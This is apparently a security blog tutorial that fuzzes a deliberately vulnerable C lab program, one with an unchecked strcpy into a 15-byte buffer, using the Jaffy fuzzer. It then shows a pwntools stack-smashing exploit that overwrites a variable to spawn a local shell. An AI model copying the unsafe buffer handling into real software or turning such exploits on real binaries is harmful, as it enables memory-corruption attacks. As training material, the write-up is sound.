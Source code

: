 ```yaml
---
title: "CLI Security Testing: Stack Smashing"
tags: [ "Security Testing", "0-day", "Fuzzing", "Memory Corruption","CLI"]
date: 2018-01-04
cover: "/media/pwntoolExploit.gif"
---
```



## Fuzzing Command Line Utilities

Following up from one of my previous [article](/post/cli-security-testing/), I will be fuzzing CLI params using JAFFY fuzzer and try to smash the stack on a vulnerable program.  
Jaffy can fuzz binaries that you run on the command line. It takes a simple XML as input to specify the arguments details and you are ready to go.
In order to run jaffy you need to install this python3 module:

```bash
pip install untangled
```

Jaffy runs everything with shell=True so it makes it vary easy to use it with command line utilities. All file output is stored in a folder with the date and time of the scan. 

Let's have a look at out vulnerable program beofre jumping to video:

```C
void shell()
{
	printf("You did it.\n");
	system("/bin/sh");
}

int main(int argc, char** argv)
{
	if(argc != 2)
	{
		printf("usage:\n%s string\n", argv[0]);
		return EXIT_FAILURE;
	}

	int set_me = 0;
	char buf[15];
	strcpy(buf, argv[1]);

	if(set_me == 0xdeadbeef)
	{
		shell();
	}
	else
	{
		printf("Not authenticated.\nset_me was %d\n", set_me);
	}

	return EXIT_SUCCESS;
}
```

By now you may have found out that it is doing a vulnerbale string copy (strcpy) and writing anything recieved from command line argument without doing a length check, that too on a limited space buffer of 15 characters.

Now lets have a look at out XML file for jaffy:

```XML
<?xml version="1.0"?>
<fuzzer>
	<bin path="/home/kowalski/0x51/lab2C" />
	<opt type="prestatic" value="" />
	<opt type="poststatic" value="" /> 
	<fuzz type="chariter" prefix="" char="a" length="9999" />
	<prefuzz cmd="" />
	<postfuzz cmd="" />
	<exit level="!0" cmd="" />
	<display level="!0" />
	<write level="!0" />
</fuzzer>
```
<p style="text-align:center" >
<script src="https://asciinema.org/a/2V9j0XYxn7tOR8uTtV83sXRkf.js" data-speed="2" id="asciicast-2V9j0XYxn7tOR8uTtV83sXRkf" async></script></p>

<p style="text-align:center" ><strong>Video: Fuzzing Command Line Utilities</strong></p>

As expected this program is vulnerable. Though while compiling I have only removed the canary protection on 17.10 ubuntu, rest all other security check are active. I will try to cover canary bypass in upcoming article.

**NX        : <span style="background-color: #98FB98">ENABLED</span> <br>
PIE       : <span style="background-color: #98FB98">ENABLED</span><br>
RELRO     : <span style="background-color: #98FB98">FULL</span><br>
CANARY    : <span style="background-color: #FF0000">DISABLED</span><br>**

Now lets go and see with help of pwntools and peda how easily we can prepare exploit for this elf.

<p style="text-align:center" >
<script src="https://asciinema.org/a/iOvLGdVDuaDXHxVhQVklihS1G.js" data-speed="3" id="asciicast-iOvLGdVDuaDXHxVhQVklihS1G" async></script></p>
<p style="text-align:center" ><strong>Video: Stack Smashing</strong></p>


## Exploit



```python
#!/usr/bin/python
from pwn import *

#Exploit
padding = "A"*15
pwn = p32(0xdeadbeef)
payload=padding+pwn

print '# Sending'
print payload
p = process(['./lab2Cm32',padding+pwn])
p.interactive()
```

![ Pwntool Exploit in Action](/media/pwntoolExploit.gif)


##### **References**:
1. [GitHub](https://github.com/pr1ntf/jaffy)



